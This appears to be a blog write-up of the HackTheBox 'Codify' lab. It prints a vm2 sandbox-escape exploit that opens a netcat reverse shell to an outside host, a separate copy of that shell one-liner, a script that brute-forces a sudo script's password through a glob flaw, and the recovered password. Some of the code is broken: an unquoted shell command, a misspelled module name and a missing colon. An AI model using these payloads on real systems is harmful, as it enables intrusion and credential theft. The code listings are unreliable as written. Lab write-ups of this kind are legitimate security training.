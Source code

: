 ```yaml
---
layout: post
title: "Codify e2e4dadbc8fe4382b136fde11892ad8b"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Codify

HackTheBox: Medium

<aside>
💡 Codify is a compiler service it runs on VM2 we just find its vulnerabilitie having code we execute

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled.png' | relative_url }})

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_1.png' | relative_url }})

FOOTHOLD

```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f);
}
`
console.log(vm.run(code));
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

## 2: User flag

Route

```bash
/var/www/contact 
```

There is a db creds

We use john for get user flag (joshua)

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_2.png' | relative_url }})

## 3: Priv esc

> There is a mistake (bad practice) with mysql. Sometimes bash uses the admin password as a “args” and not as a string so we can use a script and with the help of * we can make:
> 

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_4.png' | relative_url }})

```bash
import string
import subproccess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char)
			password += char
			print(password)
			break
	else:
		is_password_found = True
```

klj12h3jhaskjh12kjh3

Machine pwned!